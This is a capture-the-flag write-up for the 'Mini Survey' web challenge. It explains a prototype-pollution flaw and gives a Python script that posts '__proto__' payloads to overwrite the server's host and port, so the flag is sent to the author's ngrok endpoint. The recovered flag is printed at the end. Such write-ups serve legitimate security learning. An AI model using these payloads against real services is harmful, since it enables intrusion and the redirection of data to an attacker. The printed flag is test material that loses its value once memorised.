


# Mini Survey

```
Please answer this survey for the better of all

- Minnesota Dept of Roads & Railways

Author: Vikaran

Link: http://mini-survey.web.nitectf.live

File: minisurvey.zip
```

## POC

When I examined the [serverComs.js](dist/serverComs.js) file, I identified the vulnerability as `Prototype Pollution`. The objective was to change the host and port, and then the flag would be sent to my ngrok.



#### I created the payload with Python; this was the script [solve.py](#solvepy)

After running the script, the flag was successfully sent to my ngrok.



## solve.py

```python
import requests

url = "http://mini-survey.web.nitectf.live"
ngrok_host = "0.tcp.ap.ngrok.io"
ngrok_port = "15927"

data = {
    "name": "__proto__",
    "city": "host",
    "pollutionRate": ngrok_host
}

requests.post(f"{url}/pollutionsurvey", data=data)

data = {
    "name": "__proto__",
    "city": "port",
    "pollutionRate": ngrok_port
}

requests.post(f"{url}/pollutionsurvey", data=data)
```

## Flag

`nite{pr0t0_p0llut3d_116a4601b79d6b8f}`
